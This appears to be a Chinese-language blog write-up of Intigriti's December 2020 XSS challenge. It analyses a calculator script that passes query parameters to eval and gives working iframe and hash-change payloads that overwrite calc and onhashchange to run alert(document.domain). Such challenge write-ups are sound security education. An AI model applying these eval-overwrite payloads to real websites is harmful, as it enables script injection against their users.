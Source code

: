 ```yaml
---
layout: post
title:  Intigriti XSS Challenge-2020 Writeup
tags: xss
---
```


Intigriti's December XSS Challenge https://challenge-1220.intigriti.io/

script code
```
window.name = "Intigriti's XSS challenge";

const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}

function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}

function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

点击计算器，可以发现3个参数，同时观察代码，发现num1、num2和operator三个参数。代码很简单，获取3个参数，对3个参数判断检测，之后执行`eval(operation)`。
sink点就在这里。

由于字符数限制为20以内，即便是`alert(document.domain)`也有22个字符，并且正则判断也不能输入`().`，所以也不能直接输入。

## 尝试1
想到的第一个方法是使用`location=jscode`的方式来执行。要使用`javascript:`协议，直接num1、num2不行，因为过不了正则。有个变量是可以控制输入javascript的，就是`searchQueryString`，但是`location=searchQueryString`的长度为26，不满足。接下来就一直在寻找有没有更短的可控的变量。但是没有成功。后续看其他人的解法，也有这个思路的。不过还得用到后面的方法。

## 尝试2
试了一段时间之后，一直找不到。看了看提示，说是有非预期的交互的解法。就去试了一下，但是都需要两个步骤，而我一直想的是直接一步到位的方法。所以又卡壳了。可以覆盖函数，但是参数不能控制了。比如执行`calc=alert`，但是第二次需要自己执行`location.hash="?&num1=alert(document.domain)&operator=%3d&num2=eval"`第方式修改。

## 尝试3
既然做不出来，就去找了一下之前的xss的writeup[1][2]，发现通过iframe的方式，修改hash，并不会触发网页重新加载。这样第一次覆盖之后，第二次修改hash，就可以完成参数修改。
交互式解法是通过1）calc=eval 2）num1=alert(document.domain), 点击计算器，触发执行。

```
<html>
  <head>
  </head>
  <body>
	<iframe id= "xss" src="https://challenge-1220.intigriti.io/#?num1=calc&operator=%3d&num2=eval" width=1920 height=1080 onload="aa()"></iframe>
  </body>
 <script>   	
  		function aa(){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?&num1=alert(document.domain)&operator=%3d&num2=eval"}
  </script>
</html>
```

## 尝试4
在有了交互式解法的基础上，如何非交互的触发呢。想到onhashchange可以通过hash修改事件触发，这样就可以自动触发。
1）onhashchange=init 2）calc=eval 3）执行eval
完美。
```
<html>
  <head>
  </head>
  <body>
	<iframe id= "xss" src="https://challenge-1220.intigriti.io/#?num1=onhashchange&operator=%3d&num2=init" width=1920 height=1080 onload="aa()"></iframe>
  </body>
 <script>   	
  		function aa(){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?num1=calc&operator=%3d&num2=eval"}
  		setTimeout(function(e){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?&num1=alert(document.domain)&operator=%3d&num2=eval"},15000);
  </script>
</html>
```
想要看更漂亮的解法，可以去官网找其他人的解法。
刚开始思路局限了，以为非交互的解法就是直接访问。iframe通过多次修改hash，也可以非交互触发。

[1] [intigriti xss challenge 1](https://blog.intigriti.com/2019/05/06/intigriti-xss-challenge-1/)
[2] [intigriti 10k followers xss challenge](https://www.codedbrain.com/intigriti-10k-followers-xss-challenge/)